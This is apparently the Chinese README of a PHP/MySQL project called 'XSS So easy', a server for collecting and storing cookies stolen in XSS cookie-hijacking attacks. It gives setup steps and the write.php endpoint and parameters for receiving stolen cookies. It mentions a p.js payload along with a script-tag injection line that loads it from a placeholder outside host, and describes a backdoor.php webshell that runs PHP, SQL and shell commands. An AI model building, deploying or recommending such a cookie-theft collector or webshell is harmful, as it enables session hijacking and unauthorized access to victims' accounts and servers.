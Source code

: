 #XSS So easy
##简介
此网站用于XSS Cookie 劫持攻击中接收并储存Cookie。  
适用于 PHP MySQL。  

##使用方法
###安装配置
1. 配置`config.php`，填写数据库用户名、密码等信息。  
2. 访问`install.php`：创建数据库、表等操作。
###使用  
通过`write.php`，GET或者POST方法传输获取到的Cookie。  
可供提交的参数为`domain location toplocation cookie opener`。其中`domain`必填。  
含有payload：`p.js`。  

##附加功能
各个页面的访问密码  
自定义网站名称（title和页面中显示）  
自定义开发者信息（底部显示）  

##TODO
PHP提醒，mysql_connect()函数以后会被抛弃。考虑改写成新版函数。  

##Update
###2015-9-12 21:05:48
一条不当的payload，使数据库里多了几百条垃圾数据。  
于是我写了执行SQL语句的backdoor.php。（支持密码）  

###2015-9-16 10:44:21
自我感觉默认配置的颜色过于小清新。于是分离出color.css文件，可以自行配置颜色。  
出于复（xián）习（de）知（dàn）识（téng）的目的，做了个color.php，向color.css写入数据。  
后门支持PHP、SQL、shell命令执行，且支持SQL SELECT命令结果显示。SQL的INSERT UPDATE DELETE影响行数显示。（突然发现做了个WebShell）  
输出表格增加\n使HTML源文件易读。  
由于空字符串在if语句中效果同false，因此system()返回最后一行为空时应使用if($foo !== FALSE)。其他情况同理。  
改变字体为等宽字体。个别地方，中文使用微软雅黑。  
使用Eclipse排版一下。其他一些细节调整优化。  

###2015-9-16 22:25:33
CSS文件已改为PHP文件读写。  
在Windows上运行系统命令时输出字符集为GBK，增加自动转换为UTF-8。  

###2015-9-21 21:26:59
密码验证方式由GET改为POST，并增加install和testMySql页面密码功能  
分离出CSS文件，并移动到style/main.css  
增加read.php条件查询  

###2015-10-20 15:45:32
修改数据库，更改url字段名为location并允许NULL，增加toplocation（用于框架）、opener。  
**从旧的数据库变更请在backdoor.php执行SQL命令**：  

	alter table info change url location longtext NULL
	alter table info add toplocation longtext
	alter table info modify column cookie longtext after toplocation
	alter table info add opener longtext
	describe info  

增加p.js作为payload，修改内部write.php域名和路径即可使用。  
`<script src=http://xxx.xxx/p.js></script>`  

###2015年11月19日 21:43:46
近期更新：  
  
- `read.php`默认的倒序排序，增加删除键，调整样式  
- 改进`backdoor.php`交互设计
